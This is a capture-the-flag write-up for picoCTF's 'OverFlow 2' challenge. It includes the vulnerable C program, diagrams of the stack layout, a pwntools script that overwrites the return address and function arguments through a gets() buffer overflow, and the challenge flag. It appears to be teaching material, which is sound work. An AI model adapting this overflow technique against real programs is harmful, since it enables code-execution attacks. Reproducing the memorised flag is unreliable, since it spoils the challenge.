 # OverFlow 2 - Points: 250

## description

Now try overwriting arguments. Can you get the flag from this [program](./vuln)? You can find it in /problems/overflow-2_6_97cea5256ff7afcd9c8ede43d264f46e on the shell server. [Source](./vuln.c).

## solution

Similar to the previous challenge, we have to overwrite the return address to call the ```flag()``` function.
However, this time, we need to pass the correct arguments, 0xDEADBEEF and 0xC0DED00D, in order to have the flag printed.

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 176
#define FLAGSIZE 64

void flag(unsigned int arg1, unsigned int arg2) {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  if (arg1 != 0xDEADBEEF)
    return;
  if (arg2 != 0xC0DED00D)
    return;
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);

  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```

As with OverFlow 1, we need to overflow the memory allocated for local variables and overwrite the EBP and return address.
We can use the same technique of filling the char array buffer, then printing a recognisable pattern, such as the alphabet, and checking the value of the EBP register in GDB.

This time, we need to write past the return address to set the arguments for the ```flag()``` function.
For this challenge, it is very useful to know where arguments are on the stack.

```
Local variables
EBP
Return Address
Arguments
```

We want to overwrite the return address of ```vuln()``` with the address of the ```flag()``` function.
When this happens, the current stack will be destroyed and a new stack will be created like so:

During execution of ```vuln()```:

```
vuln - Local variables
vuln - old EBP
vuln - Return Address
previous stack
```

Finished execution of ```vuln()```:

```
vuln - Arguments
previous stack
```

Start execution of ```flag()```:

```
flag - Local variables
flag - old EBP
previous stack
```

However, the flag function expects that the stack is structured as normal:

```
flag - Local variables
flag - old EBP
flag - Return Address
flag - Arguments
previous stack
```

Using a buffer overflow, we can overwrite memory in the previous stack just as we would overwrite the return address.

We can see that the top of the previous stack has to include the following in order:

```
flag - Return Address
flag - Arguments
```

The return address doesn't matter in this case as we are not concerned with where the program attempts to return to once the flag has been printed.
We can overwrite this value with an arbitrary address, such as 0x41414141.

Once we've filled the return address, we overwrite the next 8 bytes with the correct arguments.
When we're finished, stack will looks something like this:

```
flag - Local variables
flag - old EBP
0x41414141
0xDEADBEEF
0xC0DED00D
remaining previous stack
```

## exploit script

This script is pretty much the same as the one used in OverFlow 1.
The difference is that, after printing the buffer and the address of the ```flag()``` function, we add an arbitrary 4 bytes, followed by the two arguments.

```py
#!/usr/bin/python
from pwn import *
from getpass import getpass

pico_user = input("Username: ")[:-1]
pico_pass = getpass("Password: ")

conn = ssh(host = '2019shell1.picoctf.com', user = pico_user, password = pico_pass)

location = '/problems/overflow-2_6_97cea5256ff7afcd9c8ede43d264f46e'

print("running vuln")
vuln = conn.process(location + '/vuln', cwd = location)

print("sending payload")
vuln.sendlineafter('\n', ('A' * 188).encode() + p32(0x080485e6) + ('A' * 4).encode() + p32(0xDEADBEEF) + p32(0xC0DED00D))
vuln.recvline()

print("done")
vuln.interactive()
```

Flag: ```picoCTF{arg5_and_r3turn55897b905}```

